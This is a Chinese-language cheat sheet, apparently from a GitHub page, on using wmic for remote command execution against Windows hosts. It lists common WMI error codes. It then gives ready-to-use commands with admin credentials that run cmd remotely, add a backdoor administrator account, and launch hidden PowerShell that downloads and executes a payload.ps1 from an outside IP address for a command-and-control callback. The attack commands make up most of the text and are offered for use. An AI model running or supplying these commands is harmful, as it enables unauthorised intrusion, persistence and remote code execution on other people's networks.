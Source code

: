 ## 常见错误

```
1.开启防火墙时，允许共享例外
错误:
代码= 0x800706ba
说明= RPC服务器不可用。
设备= Win32

2.组策略阻止administraotr远程访问时
错误:
代码= 0x80070005
说明=拒绝访问。
设备= Win32

3.IP安全策略阻止135时
错误:
代码= 0x800706ba
说明= RPC服务器不可用。
设备= Win32

4.禁用winmpmt服务时
错误:
代码= 0x80070422
说明=无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动。
设备= Win32

5.拒绝wbem目录权限，无法使用wmic的
```

## wmic调用cmd

### 以下命令需要管理员权限

```
执行命令并且输出
wmic /node:IP地址 /user:本地用户管理员/域管理员 /password:密码 process call create "cmd.exe /c ipconfig >c:\ip.txt"

wmic /node:192.168.70.16 /user:administrator /password:admin@123 process call create "cmd.exe /c ipconfig >c:\ip.txt"


列出远程主机进程
wmic /node:IP地址 /user:本地用户管理员/域管理员 /password:密码 process list brief

在远程系统上执行bat脚本
wmic /node:IP地址 /user:本地用户管理员/域管理员/password:密码 process call create C:\programdata\test.bat
wmic /node:IP地址 /user:本地用户管理员/域管理员/password: 密码 process call create "cmd.exe /c net user test1 !@#123QWE /add && net localgroup administrators test1 /add"

执行powershell上线
wmic /NODE:IP /user:本地用户管理员/域管理员 /password:密码 PROCESS call create "powershell.exe -nop -W hidden -c \"IEX ((new-object net.webclient).downloadstring('ps脚本地址'))\""

wmic /NODE:192.168.70.16 /user:hack\administrator /password:admin@123 PROCESS call create "powershell.exe -nop -W hidden -c \"IEX((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))\""
```
